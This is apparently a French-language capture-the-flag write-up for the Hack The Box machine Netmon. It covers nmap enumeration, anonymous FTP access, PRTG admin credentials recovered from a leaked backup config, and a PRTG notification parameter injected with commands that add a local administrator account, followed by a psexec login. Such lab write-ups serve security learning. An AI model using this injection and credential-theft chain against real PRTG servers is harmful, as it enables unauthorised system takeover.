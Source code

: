 # Netmon [Windows] Easy

Liens vers la box :

[https://app.hackthebox.com/machines/Netmon](https://app.hackthebox.com/machines/Netmon)

**— 1. Enumeration —**

`nmap -sT -sV -oN nmap1.txt 10.10.10.152`

```python
# Nmap 7.92 scan initiated Wed Apr  6 11:02:16 2022 as: nmap -sT -sV -oN nmap1.txt 10.10.10.152
Nmap scan report for 10.10.10.152
Host is up (0.023s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          Microsoft ftpd
80/tcp   open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1494/tcp filtered citrix-ica
6112/tcp filtered dtspc
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr  6 11:02:26 2022 -- 1 IP address (1 host up) scanned in 10.17 secondsOn a donc un serveur ftp nous pouvons essayer d’observer ce qu’il y a dedans.
```

Nous avons aussi un site internet j’ai tester de regarder les différentes pages avec fuff. Malheureusement cela n’aboutie à rien.

**— 2. Serveur FTP —**

On se connecte au serveur FTP en tant anonymous on visite les sous dossier et nous pouvons déjà récupérer le flag user.txt

`get user.txt`

En se baladant toujours on remarque dans les fichier de programme PRTG Network Monitor 

[https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

On peux trouver des fichier sensible en libre accès avec le mot de passe et le nom d’utilisateur dans program data le dossier caché de Windows

`get "PRTG Configuration.old.bak”`

`prtgadmin:PrTg@dmin2018`

Si le mot de passe 2018 marche pas essayer celui ci-dessous

`prtgadmin:PrTg@dmin2019`

**— 3. Faille du site Web —**

 Si nous allons à l’adresse ip 10.10.10.152 nous pouvons nous log en tant qu’admin avec les identifiants récupérer juste avant.

Nous pouvons voir sur le menu la version du logiciel et donc faire des recherche d’exploit.

[https://www.codewatch.org/blog/?p=453](https://www.codewatch.org/blog/?p=453) 

Il y a donc possibilité de créé un utilisateur avec les notifications 

Setup > Account Settings > Notifications

![Untitled](Netmon%20%5BWindows%5D%20Easy%20f0e4fe8b3e1c4d48ad3ecc3979cdaaac/Untitled.png)

Avec le bouton + nous pouvons créé une nouvelle notification.

Tout en bas nous allons directement cocher Execute Program mettre démo outfile.ps1

en paramètre `abc.txt | net user htb abc123! /add ; net localgroup administrators htb /add`

Pour exécuter la notif il suffit d’aller ensuite dans le menu notification et d’appuyer sur le crayon et finalement la cloche. 

La commande est exécuté l’utilisateur est créé nous pouvons nous connecter au prtg depuis notre ordinateur.

**— 4. Ordinateur Cible —**

`psexec.py htb:’abc123!’@10.10.10.152`

Nous somme maintenant sur la machine cible en tant qu’Administrateur nous pouvons donc chercher le flag dans Users/Administrators/Desktop

`type root.txt`